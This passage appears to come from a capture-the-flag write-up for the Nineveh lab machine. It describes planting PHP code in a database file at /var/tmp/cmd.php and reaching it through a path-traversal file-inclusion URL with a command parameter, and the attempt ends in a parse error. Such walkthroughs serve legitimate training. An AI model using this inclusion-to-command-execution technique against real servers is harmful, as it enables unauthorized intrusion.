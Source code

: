 Create a new table inside the new database, which, as shown below, is being stored in "/var/tmp/cmd.php".

![](<../../.gitbook/assets/15 (1).JPG>)

Add a text field with a default value which contains our PHP code.

![](../../.gitbook/assets/16.JPG)

![](../../.gitbook/assets/17.JPG)

Let's use the LFI to access the "/var/tmp/cmd.php" file via the browser:

> [http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=id](http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=id)

> Parse error: syntax error, unexpected 'cmd' (T\_STRING), expecting ']' in /var/tmp/cmd.php on line
